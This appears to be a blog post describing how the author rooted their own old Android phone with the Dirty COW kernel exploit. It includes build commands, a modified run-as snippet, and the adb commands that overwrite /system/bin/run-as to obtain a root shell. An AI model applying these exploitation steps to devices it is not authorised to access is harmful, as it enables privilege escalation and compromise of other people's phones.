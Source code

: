 ```yaml
---
layout: post
title: "Rooting Android with a Dirty COW"
tags: [android, root, privilege, priv-esc, escalation, dirty-cow]
---
```


I've recently got a quite old Android phone to play with. I guess the
first thing to do is getting root, don't you think?<!--more-->


## Android SDK

While it is perfectly possible to download the SDK from
[Android](https://developer.android.com/ndk/guides) and install it by
hand, I liked the idea to use a package from Debian repository.

To interact with the device we will use [Android Debug
Bridge](https://developer.android.com/studio/command-line/adb) or `adb`
for short.

Besides `adb` we need to setup a few `udev` rules so we can run it without
root permissions.

The package `android-sdk-platform-tools-common` already does that, we
only need to add our user to the `plugdev` group.

```shell
$ sudo usermod -aG plugdev $(id -un)
$ sudo apt-get install adb android-sdk-platform-tools-common
```

The compiler and the building tools, however, it wasn't so easy.

[google-android-ndk-installer](https://packages.debian.org/source/bullseye/google-android-ndk-installer)
is available for Bullseye but not for Buster :|

I decided to repackage it:

 - I downloaded the source package
 - I edited `debian/control` to declare as dependency `debhelper-compat`
version 12 instead of 13 (which it is for Bullseye)
 - and finally, I built the `.deb` package with
`dpkg-buildpackage -rfakeroot -b -uc -us`

`dpkg -i *.deb` and we are done.

## Gathering info

To compile our priv-esc exploit we need to know the architecture
and SDK version of the phone.

```shell
$ adb shell getprop ro.product.cpu.abi
armeabi-nn

$ adb shell getprop ro.build.version.sdk
nn
```

I left the connection details for the [official documentation](
https://developer.android.com/studio/run/device)

## Dirty COW

One of the most reliable modern exploits, the
[CVE-2016-5195](https://security-tracker.debian.org/tracker/CVE-2016-5195)
know as [Dirty COW](https://www.youtube.com/watch?v=kEsshExn7aE).

In short, it exploits a race condition in the Copy-on-Write (COW)
feature in Linux kernel to write in memory pages that are supposed to be
read-only.

This opens a whole set of opportunities to priv-esc:

 - we could write a `setuid` program with our payload, execute it and
gain root permissions.
 - or we could patch `/etc/passwd` or other sensible file.

The beauty is that the exploit is quite easy to understand and read,
something that it is crucial: you must **never** root your phone blindly
trusting in an unknown apk or exploit. **Never**.

This [Github
repository](https://github.com/timwr/CVE-2016-5195/tree/f5671399e040a168307058c598d62de64bb441d8)
is a PoC for exploiting Dirty COW on Androids. After a few hours of
reviewing I was confident that it would be safe to use it.

The repository has:

 - `dirtycow.c` that implements the exploit
 - `dcow.c`, a tiny program interface
 - `run-as.c` that uses `selinux` to run as root

I had only modified `run-as.c` a little to call the original *unpatched*
`run-as` program by default and drop a root shell only under a special
condition. We don't want that *anyone* can call it and become root!

```cpp
const char* pkgname;
if (argc < 2)
    return 1;

pkgname = argv[1];
if (strcmp(pkgname, "cookie") != 0) {
    /* Rollback to the default run-as . */
    char *argv2[argc+1];
    memset(argv2, 0, sizeof(char*)*(argc+1));
    memcpy(argv2, argv, sizeof(char*)*argc);

    execvp("/system/bin/run-as.bck", argv2);
    return 1;
}
```

The [compilation](https://developer.android.com/ndk/guides/ndk-build)
then went smoothly:

```shell
$ export PATH=$PATH:/usr/lib/android-sdk/ndk-bundle/
$ ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk APP_ABI=armeabi-nn APP_PLATFORM=android-nn
```

## Patching

We upload the exploit and our *custom* `run-as` program to the phone:

```shell
$ adb push libs/armeabi-nn/dirtycow /storage/sdcard0/dcow
$ adb push libs/armeabi-nn/run-as /storage/sdcard0/run-as
```

We make a backup copy of the *unpatched* `run-as` program and trigger
then the exploit. If everything goes well the *read-only* `/system/bin/run-as`
will be *replaced* with our custom `run-as`:

```shell
$ adb shell 'cp /system/bin/run-as /storage/sdcard0/run-as.bck'
$ adb shell '/storage/sdcard0/dcow /storage/sdcard0/run-as /system/bin/run-as --no-pad'
```

We run `run-as cookie cookie` and we get a root shell; bypassing
[SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux) will
be for another post [:D](https://hernan.de/blog/tailoring-cve-2019-2215-to-achieve-root/)
